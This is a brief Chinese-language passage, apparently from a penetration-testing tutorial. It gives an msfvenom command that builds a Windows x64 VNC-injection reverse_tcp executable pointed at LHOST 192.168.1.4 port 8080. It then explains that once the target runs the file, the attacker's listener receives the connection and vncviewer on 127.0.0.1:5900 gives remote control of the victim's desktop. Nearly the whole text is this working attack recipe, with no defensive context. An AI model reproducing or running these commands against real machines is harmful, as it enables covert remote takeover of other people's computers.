 设置AUTOVNC为false，run之后，再开启vncviewer

当目标主机能通外网时  
msfvenom –p windows/x64/vncinject/reverse_tcp  
AUTOVNC=false  
LHOST=192.168.1.4  
LPORT=8080  
–f exe  
–o 192.168.1.4-8080.exe  
run  
目标主机执行payload后，监听器需成功接收反连，然后打开vncviewer，访问127.0.0.1:5900
